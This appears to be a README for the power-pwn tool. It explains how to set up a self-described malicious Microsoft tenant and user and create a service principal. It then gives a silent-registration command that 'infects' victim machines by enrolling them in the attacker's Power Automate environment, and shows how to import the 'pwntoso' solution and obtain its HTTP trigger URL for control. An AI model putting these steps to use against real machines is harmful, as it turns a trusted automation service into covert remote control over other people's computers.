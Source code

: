# How to set up your power-pwn cloud account

### Set up a malicious Microsoft tenant

1. Set up your free Microsoft tenant by following [Microsoft guidelines](https://docs.microsoft.com/en-us/azure/active-directory/verifiable-credentials/how-to-create-a-free-developer-account)
   
   ![Pwntoso tenant](assets/pwntoso.png)

2. Create a malicious user account and assign it a _Power platform administrator_ role. The admin role isn't necessary, it's just convenient.

   ![Power platform administrator role](assets/power_platform_admin.png)

3. On a private browser tab

   1. Go to https://flow.microsoft.com and log in with the malicious user. Follow through the sign-in process to initiate a Power Automate trial license. 

   2. Follow the same process with https://make.powerapps.com to initiate a Power Apps trial license.

4. Create a Service Principal by following [Microsoft guidelines](https://docs.microsoft.com/en-us/power-automate/desktop-flows/machines-silent-registration#using-a-service-principal-account) and note the _tenantId_, _applicationId_ and _secret_. 

### Infect a test machine victim machines

1. To register a victim machine, run the following command

   `echo <secret> | C:\Program Files (x86)\Power Automate Desktop\PAD.MachineRegistration.Silent.exe -register -applicationid <applicationId> -tenantid <tenantId> -clientsecret -force`

2. That's it! For troubleshooting, refer to [Microsoft Docs](https://docs.microsoft.com/en-us/power-automate/desktop-flows/machines-silent-registration#silently-register-a-new-machine).

### Upload pwntoso to your Power Automate cloud environment

1. Log into https://flow.microsoft.com with the malicious user.

2. Go to _Solutions_ and click _Import solution_

   ![Import pwntoso solution](assets/import_solution.png)

3. Zip the content of [pwntoso_1_0_0_1](https://github.com/mbrg/power-pwn/tree/main/solution/pwntoso_1_0_0_1) and select it when asked to provide a solution file. Follow the guided process to completion.

4. Go to _My flows_ and search for _Endpoint_

   ![Endpoint flow](assets/endpoint_flow.png)

   Click on _Edit_ and then on _When a HTTP request is received_ and copy the URL under _HTTP POST URL_

   ![HTTP Post URL](assets/post_url.png)
